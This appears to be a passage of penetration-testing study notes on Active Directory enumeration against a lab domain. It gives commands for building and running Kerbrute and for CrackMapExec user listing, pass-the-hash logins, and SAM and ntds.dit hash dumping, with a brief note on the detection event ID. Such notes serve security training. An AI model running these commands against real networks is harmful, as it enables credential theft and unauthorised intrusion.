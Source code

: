 
```
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist

# Add the tool to our PATH to make it accessible from anywhere in the host. For that we make sure first of the PATH
echo $PATH

# and then we move the binary to a path, for instance
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
# d: domain
# --dc: domain controller
# -o: output file
```

**However**, using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768).  Defenders can tune their SIEM tools to look for an influx of this event ID.

##### crackmapexec

[CrackMapExec](crackmapexec.md):

```shell-session
# This is a useful tool that will also show the badpwdcount
crackmapexec smb $ip --users

# Also, if we have valid credentials, we could extract the users with the flag --users
sudo crackmapexec smb $ip -u $username -p $password --users
```

As a matter of fact, if we have a foothold on the domain, we could perform the following enumeration:

```powershell
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions


# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
```